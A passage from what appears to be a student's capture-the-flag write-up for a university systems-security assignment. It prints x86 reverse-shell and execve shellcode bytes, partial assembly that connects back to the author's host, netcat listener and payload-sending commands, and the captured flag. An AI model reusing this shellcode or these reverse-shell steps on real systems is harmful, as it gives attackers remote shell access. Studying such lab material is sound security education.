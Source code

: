 ```
                    "\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48" \
                    "\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a" \
                    "\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54" \
                    "\x5f\x6a\x3b\x58\x0f\x05" )
```

## Problem 3.c: Exploitation on modified shelleval service
* It is possible to read the flag file by modifying my shellcode to execute ``/bin/cat flag.txt`` instead of ``/bin/sh``. Hence, it would use ``execve`` syscall with ``/bin/cat flag.txt`` argument.
* flag: ``SKCTF{y0u_5p4wn3d_4_x86_5h3ll}``
* assembly file: ``/src/problem_3/problem3d.s``
* compile command:
```
gcc -nostdlib -g -m32 problem3d.s -o problem3d
```
* steps for explotation:
    1. compile ``problem3d.s``
    2. retrieve hex for the ``problem3d``
    3. print retrieved hex with python script command, ``./hex2binary_x86_modified.py > payload``
    4. starting listening form local machine, ``nc -lvnp 55555``
    5. send exploit shellcode to server, ``nc 143.248.38.212 30000 < payload``

## Problem 3.d: Code snippet: ``problem3d.s``
* code snippet
```
.intel_syntax noprefix

.section .text
.global _start

######## MY ADDRESS INFO ######## (tester3.kaist.ac.kr)
## IP: 143.248.136.13
## PORT: 55555
#################################

######## MY ADDRESS INFO in HEX ########
## IP: "\x8f\xf8\x88\x0d"
## PORT: "\xd9\x03"
########################################

# nc 143.248.38.212 30000
# gcc -nostdlib -g -m32 problem3d.s -o problem3d

# cmd to get hex from executable
# objdump -d problem3d | grep '[0-9a-f]:' | grep -oP '\s\K([0-9a-f]{2} )+' | tr -d ' \n' | sed 's/\(..\)/\\x\1/g'

# cmd to execute in local machine
# nc -lvnp 55555

# flag: SKCTF{y0u_5p4wn3d_4_x86_5h3ll}

_start: 
    # Set up the destination IP address (143.248.136.13 in hex: 0x8ff8880d).
    push   0xd88f88f
    pop    esi

    # Set up the destination port (55555 in hex: 0xd903).
    pushw  0x3d9
    pop    edi

    # Create a socket (socketcall syscall - syscall number 0x66 in eax)
```